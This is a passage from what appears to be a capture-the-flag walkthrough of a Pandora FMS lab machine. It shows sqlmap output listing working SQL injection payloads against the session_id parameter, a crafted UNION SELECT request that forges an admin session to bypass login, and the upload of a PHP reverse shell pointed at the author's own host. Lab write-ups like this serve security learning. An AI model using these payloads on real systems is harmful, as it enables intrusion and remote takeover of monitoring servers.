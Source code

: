 ```
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-8479' OR 6144=6144#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=123' OR (SELECT 1715 FROM(SELECT COUNT(*),CONCAT(0x716b6b6a71,(SELECT (ELT(1715=1715,1))),0x7170766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IjJu

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=123' AND (SELECT 7641 FROM (SELECT(SLEEP(5)))MouN)-- NPgC
---
[15:21:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Then I crafted a request to take advantage of this `http://127.0.0.1:32000/pandora_console/include/chart_generator.php?session_id=asdfasdf%27%20UNION%20SELECT%20%27TUTAJ_TWOJE_PHPSESSID%27,123412341234,%27id_usuario|s:5:%22admin%22;%27;--%20-`

Then after making that request I now have the admins cookie and can bypass the login

![Pandorad](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/pandora/cd668c8e843742efb40fb3175b20f935.png)

Under admin tools, I can see that I have access to upload a file, since this web app is running php I used a php reverse shell replacing the IP and PORT to my own https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![Pandorad](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/pandora/3c073d133ffa462780d3e5919359b1df.png)
